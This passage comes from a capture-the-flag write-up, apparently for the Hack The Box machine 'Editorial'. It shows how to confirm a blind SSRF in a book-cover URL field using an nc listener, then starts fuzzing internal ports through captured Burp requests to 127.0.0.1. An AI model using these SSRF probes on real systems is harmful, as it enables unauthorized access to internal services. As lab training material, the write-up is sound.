 Now enter our Kali tun0 IP and the port of our nc listener on the Cover URL input field:

```shell
http://10.10.14.206:8443/
```

And click on Preview now and check our nc listener:

```
listening on [any] 8443 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.138.51] 57916
GET / HTTP/1.1
Host: 10.10.14.206:8443
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

It worked! This means that there is a Blind SSRF.

Note: If we fill everything and get Send book info, we wont get any response. Only clicking on Preview give us a response.

# Foothold
### Fuzzing all ports on target 127.0.0.1 IP to find local port 5000 with API Endpoints

Lets try to enumerate all ports using the 127.0.0.1 IP to see if there are any extra locally open ports at the target.

To do this, we will create a list containing all port numbers from 1 to 65535 first:

```shell
# Using the seq command is an easy way to achieve this
seq 0 65535 > 1_to_65535.txt
```

Now we can use Burp Suite or OWASP ZAP.

Enter the following IP and click on Preview, while capturing the request on Burp Suite or OWASP ZAP (Use FoxyProxy on Firefox for this):

```shell
http://127.0.0.1:10000/
```

The captured POST request will look like this:

```shell
POST http://editorial.htb/upload-cover HTTP/1.1
host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Content-Type: multipart/form-data; boundary=---------------------------155062683613212044802935180338
Content-Length: 366
Origin: http://editorial.htb
Connection: keep-alive
Referer: http://editorial.htb/upload

-----------------------------155062683613212044802935180338

Content-Disposition: form-data; name="bookurl"



http://127.0.0.1:10000/
```